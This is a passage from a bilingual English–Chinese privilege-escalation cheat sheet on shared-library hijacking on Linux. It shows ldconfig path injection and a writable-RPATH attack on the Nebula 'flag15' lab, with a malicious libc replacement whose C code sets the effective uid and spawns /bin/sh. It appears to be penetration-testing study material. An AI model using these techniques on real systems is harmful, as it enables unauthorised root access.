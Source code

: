 ----

#### Shared Library

* 方法1 ldconfig - Identify shared libraries with `ldd`

使用`ldd`识别共享库

```shell
$ ldd /opt/binary
    linux-vdso.so.1 (0x00007ffe961cd000)
    vulnlib.so.8 => /usr/lib/vulnlib.so.8 (0x00007fa55e55a000)
    /lib64/ld-linux-x86-64.so.2 => /usr/lib64/ld-linux-x86-64.so.2 (0x00007fa55e6c8000)        
```

Create a library in `/tmp` and activate the path.

在`/tmp`中创建一个库并激活路径

```shell
gcc –Wall –fPIC –shared –o vulnlib.so /tmp/vulnlib.c
echo "/tmp/" > /etc/ld.so.conf.d/exploit.conf && ldconfig -l /tmp/vulnlib.so
/opt/binary
```

* 方法2 RPATH

```shell
level15@nebula:/home/flag15$ readelf -d flag15 | egrep "NEEDED|RPATH"
 0x00000001 (NEEDED)                     Shared library: [libc.so.6]
 0x0000000f (RPATH)                      Library rpath: [/var/tmp/flag15]

level15@nebula:/home/flag15$ ldd ./flag15 
 linux-gate.so.1 =>  (0x0068c000)
 libc.so.6 => /lib/i386-linux-gnu/libc.so.6 (0x00110000)
 /lib/ld-linux.so.2 (0x005bb000)
```

By copying the lib into `/var/tmp/flag15/` it will be used by the program in this place as specified in the `RPATH` variable.

```shell
level15@nebula:/home/flag15$ cp /lib/i386-linux-gnu/libc.so.6 /var/tmp/flag15/

level15@nebula:/home/flag15$ ldd ./flag15 
 linux-gate.so.1 =>  (0x005b0000)
 libc.so.6 => /var/tmp/flag15/libc.so.6 (0x00110000)
 /lib/ld-linux.so.2 (0x00737000)
```

Then create an evil library in `/var/tmp` with `gcc -fPIC -shared -static-libgcc -Wl,--version-script=version,-Bstatic exploit.c -o libc.so.6`

```c
#include<stdlib.h>
#define SHELL "/bin/sh"

int __libc_start_main(int (*main) (int, char **, char **), int argc, char ** ubp_av, void (*init) (void), void (*fini) (void), void (*rtld_fini) (void), void (* stack_end))
{
 char *file = SHELL;
 char *argv[] = {SHELL,0};
 setresuid(geteuid(),geteuid(), geteuid());
 execve(file,argv,0);
}
```
